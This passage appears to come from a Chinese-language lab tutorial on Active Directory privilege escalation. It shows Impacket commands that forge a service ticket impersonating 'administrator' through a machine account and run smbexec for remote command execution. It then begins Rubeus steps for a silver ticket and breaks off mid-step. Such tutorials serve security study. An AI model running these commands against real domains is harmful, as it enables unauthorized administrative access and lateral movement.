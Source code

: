 ```plain
./getST.py -dc-ip dc.hacke.testlab hacke.testlab/evilsystem$:evil -spn cifs/win7-test.hacke.testlab -impersonate administrator 
export KRB5CCNAME=administrator.ccache
./smbexec.py -no-pass -k win7-test.hacke.testlab
```

[![](assets/1705982146-409164735a03bf386e55d1b92b6182eb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223835-97ba5adc-b7a1-1.png)

#### Rubeus提权

Step 1：在Windows server 2008 R2中得普通域用户Al2ex无法访问win7-test

[![](assets/1705982146-41d48d9634feb534d6705ba91807bcca.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223849-a00c3106-b7a1-1.png)  
Step 2：清空票据  
[![](assets/1705982146-e1e8783311070a09a0f950096dee8a1a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223859-a5ad5450-b7a1-1.png)  
Step 3：之后在Windows server 2008 R2中使用rebues请求白银票据
